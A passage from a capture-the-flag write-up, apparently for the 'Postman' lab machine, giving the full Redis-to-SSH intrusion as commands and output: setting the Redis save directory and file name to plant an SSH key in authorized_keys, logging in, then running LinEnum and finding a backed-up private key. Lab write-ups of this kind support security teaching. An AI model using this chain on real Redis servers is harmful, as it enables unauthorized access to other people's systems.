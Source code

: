 Awesome, let's check if our key is correctly stored on the Redis server.
```
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> get exploit
"\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDYs2g4+kkvfppjRQu7sBYovd2JosfOz+glXU/5q9ZpVvQEFOPMySLc
k/q9Gcr2ItQ2hAjs6i1lSCkdkMGVv9MPv6d/28uW16d8sl8cAvVBqWskewSrMpDK9fhoO+0TwZp+r1N0c5/RaNDpAqURvuQOeSm
pbBCR3+996fPLWuBO2CO2kwwBgsthxU8dT0m6IebImyRHuzdZFKg2YfHRPrt1vS71p3CAzdxPUqpXwp9PPbxwpQ7Qwqb9BtNR9t
LYXy2dKBQWeJV+vL7chb2/fAEOUGIorOei31rdWeZoVKZ8ZHHIzEebdpjSnkeQ/KkiZ7iQgtwskrg23KbVfTqjSO08rLGxnOYnq
KAtT+wW6dlTAFiX2EA0EFVJJPHzchGmfRQDvsJNyBw8TsUBfpxjDyxXy4fTNWDpOQTqpCVt/jrGMVNKJPLagRpqb3748Kk6Yx06
aqAhhoCXTMf+5X/nuKq454W6g2pYXl4sk0901ePEHT4oWw9PuHLKmrGWMf1OezE= foo@bar\n\n\n\n"
```
<br />

Perfect.

### Writing the SSH Key to the Server
Next, we'll need to write our SSH key to one of the users' `.ssh/authorized_keys` file. But this is an issue, we don't know any of the users! Or do we? This is the first point where it's possible to trip up. We *do*, in fact, know one of the users. This user being `redis`. A quick google search shows that the default home directory for the `redis` user is at `/var/lib/redis`. Nice, let's exploit this.
```
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config get dir
1) "dir"
2) "/var/lib/redis/.ssh"
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```
<br />

### Accessing the Server
Awesome! We now have an SSH key stored on the `redis` user. We can now SSH in.
```
$ ssh -i ssh_redis redis@10.10.10.160
redis@Postman:~$ ls
6379  dkixshbr.so  dump.rdb  ibortfgq.so  module.o  qcbxxlig.so  vlpaulhk.so
```
<br />

## Getting User
There doesn't appear to be anything interesting in redis' home directory, so we'll start with basic enumeration.
```
scp -i ssh_redis LinEnum.sh redis@10.10.10.160:/tmp/LinEnum.sh
```
```
redis@Postman:~$ sh /tmp/LinEnum.sh

...

-e [-] Location and Permissions (if accessible) of .bak file(s):
-rwxr-xr-x 1 Matt Matt 1743 Aug 26 00:11 /opt/id_rsa.bak

...
```
<br />
